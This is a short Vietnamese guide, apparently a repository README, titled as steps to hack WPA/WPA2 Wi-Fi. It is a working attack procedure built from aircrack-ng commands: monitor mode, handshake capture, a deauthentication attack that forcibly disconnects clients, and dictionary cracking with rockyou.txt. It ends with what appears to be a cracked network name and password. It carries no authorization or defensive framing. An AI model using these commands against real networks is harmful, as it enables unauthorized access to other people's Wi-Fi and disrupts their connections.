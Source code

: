 ## 🛠️ Các bước thực hiện hack Wi-Fi (WPA/WPA2)

```bash
1. iwconfig
```

→ Kiểm tra các thiết bị kết nối mạng không dây.

```bash
2. sudo airmon-ng start wlan0
```
airmon-ng : bật tắt chế độ monitor và dừng tiến trình gây xung đột
→ Bật chế độ monitor cho card mạng.

```bash
3. sudo airmon-ng check kill
```

→ Dừng các dịch vụ gây xung đột.

```bash
4. sudo airodump-ng wlan0mon
```

→ Quét và thu thập thông tin mạng Wi-Fi.
**Ctrl + C** để thoát.

```bash
5. sudo airodump-ng --bssid <bssid> --channel <ch> --write wpa2hack wlan0mon
```

→ Bắt handshake WPA/WPA2 từ một Wi-Fi và lưu vào file `wpa2hack.cap`.

```bash
6. sudo aireplay-ng --deauth 4 -a <bssid> -c <station> wlan0mon
```

→ Gửi gói `deauth` để ngắt kết nối thiết bị khỏi Wi-Fi.
Mục đích: ép thiết bị kết nối lại để bết handshake.

```bash
7. sudo aircrack-ng <file.cap> -w /usr/share/wordlists/rockyou.txt
```

→ Dò mật khẩu Wi-Fi bằng file từ điển `rockyou.txt`.

---

### ✅ Kết quả:

```
Sanh Dieu [ 00001111 ]
```
